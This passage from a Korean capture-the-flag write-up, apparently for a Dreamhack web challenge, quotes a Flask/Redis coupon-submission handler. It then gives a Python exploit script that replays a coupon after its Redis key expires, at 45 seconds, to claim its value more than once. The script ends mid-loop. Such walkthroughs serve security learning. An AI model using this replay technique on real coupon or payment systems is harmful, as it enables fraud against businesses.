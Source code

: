 ```python
        raise BadRequest(f"Rate limit reached!, You can submit the coupon once every {RATE_LIMIT_DELTA} seconds.")


    used_coupon = f'COUPON:{coupon["uuid"]}'
    if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
    else:
        # double claim, fail
        raise BadRequest('Your coupon is alredy submitted!')
```

<br>

따라서 아래와 같이 익스플로잇 코드를 짤 수 있는데 세션 발급과 쿠폰 발급, 그리고 제출할 때 한 번 제출하고 만료 기간인 45초에서 46초 사이에 요청을 한 번 더 하는데 이건 인터넷 속도마다 다르니 time.sleep 인자값을 적절히 맞추고 하면 된다.

```python
import time
import requests

host = 'http://host1.dreamhack.games:22577'

# 세션 발급
sessionurl = f'{host}/session'
r = requests.get(sessionurl)
session_data = r.json()
authorization = session_data['session']
print(f"세션: {authorization}")

# 쿠폰 발급
claimurl = f'{host}/coupon/claim'
header = {
    "Authorization": authorization
}
r = requests.get(claimurl,headers=header)
coupon_data = r.json()
coupon = coupon_data['coupon']
print(f"쿠폰: {coupon}")

# 쿠폰 제출
submiturl = f'{host}/coupon/submit'
header = {
    "Authorization": authorization,
    "coupon": coupon
}
r = requests.get(submiturl, headers=header)
status_data = r.json()
status = status_data['status']
print(f"첫 번째 요청: {status}")

time.sleep(45)

for i in range(2, 5):
    r = requests.get(submiturl, headers=header)
    status_data = r.json()
    status = status_data['status']
```